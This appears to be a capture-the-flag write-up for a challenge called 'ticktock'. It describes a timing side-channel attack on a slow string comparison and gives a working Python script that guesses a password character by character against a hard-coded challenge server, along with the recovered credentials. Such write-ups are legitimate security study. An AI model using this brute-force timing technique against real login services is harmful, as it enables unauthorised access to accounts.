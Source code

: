# ticktock
by Halogen
> Problem Description
## Solution
This had 0 solves until the admin dropped their insane hint
![hint.png|center](./assets/hint.png)
<center>🙏 Thank you @bbbb 🙏</center>

So after being given the compare string code, Woah! Look at all the asyncio.sleep. Wonder if we could exploit that?🤔oh we could, with a side channel attack called timing attack!

The idea is we brute force our admin and password smartly, by checking the time it took to process our wrong username/password. If it took longer, it was probably more "correct". First we brute force the length of the string as that is checked first, then each individual character, starting from the front.

**Sample Script (for `pwd`)**
```python
# Answers to find
usr = "0p3nr4leaf"
pwd = "r1g3boj8455871326i3w"

# Imports
import string, requests

i = 0
while i != len(pwd):

	# Keep a list of timings for each character
	result = []

	# For each character
	for c in string.ascii_lowercase + string.digits:

		# Sub it in and check timing
		r = requests.get(f"http://157.245.52.169:31662/flag?username={usr}&password={pwd[:i] + c + pwd[i+1:]}")

		# Add it to timings
		result.append((r.elapsed.total_seconds(), c))

	# Sort by timing
	result.sort()
	
	# Gets the character (slowest character)
	ans = result[-1]
	pwd = pwd[:i] + ans[1] + pwd[i+1:]

	# Slowly Print out answer
	print(pwd)
	i += 1
```

After using the given username and password we get the flag